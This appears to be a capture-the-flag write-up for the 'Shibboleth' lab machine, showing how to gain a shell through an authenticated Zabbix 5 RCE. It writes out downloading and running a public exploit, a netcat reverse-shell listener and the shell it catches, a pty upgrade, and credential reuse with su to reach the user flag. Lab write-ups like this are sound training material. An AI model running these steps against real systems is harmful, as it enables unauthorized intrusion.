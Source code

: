 
## `http://monitor.shibboleth.htb`

The login form for Shibboleth Data Systems' [Zabbix](https://www.zabbix.com/) instance, a business monitoring platform. According to the page's source code, it appears to be Zabbix version 5.0.

### Zabbix 5 Authenticated RCE

The credential `Administrator`:`ilovepumkinpie1` grants access to the Zabbix administrative panel. There is an [authenticated RCE vulnerability](https://www.exploit-db.com/exploits/50816) in Zabbix 5.

Start a reverse shell listener.

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
```

Download and run the exploit.

```bash
$ curl -s https://www.exploit-db.com/raw/50816 > 50816.py
$ python3 50816.py
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[!] usage : ./expoit.py <target url>  <username> <password> <attacker ip> <attacker port>
$ python3 50816.py http://monitor.shibboleth.htb Administrator 'ilovepumkinpie1' 10.10.14.14 80
[*] this exploit is tested against Zabbix 5.0.17 only
[*] can reach the author @ https://hussienmisbah.github.io/
[+] the payload has been Uploaded Successfully
[+] you should find it at http://monitor.shibboleth.htb/items.php?form=update&hostid=10084&itemid=33617
[+] set the listener at 80 please...
[?] note : it takes up to +1 min so be patient :)
[+] got a shell ? [y]es/[N]o: y
Nice !
```

Navigate to the URL specified by the exploit's output and receive a reverse shell as `zabbix`.

```bash
$ sudo nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.14.14] from (UNKNOWN) [10.129.123.122] 47980
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
zabbix@shibboleth:/$ id
id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)
```

Use the password `ilovepumkinpie1` to switch to `ipmi-svc`'s account and grab the user flag from `/home/ipmi-svc/user.txt`.

```bash
zabbix@shibboleth:/etc/ayelow$ su ipmi-svc
Password:ilovepumkinpie1
ipmi-svc@shibboleth:/etc/ayelow$ ls -la /home/ipmi-svc/user.txt
-rw-r----- 1 ipmi-svc ipmi-svc 33 Apr  5 14:11 /home/ipmi-svc/user.txt
```

---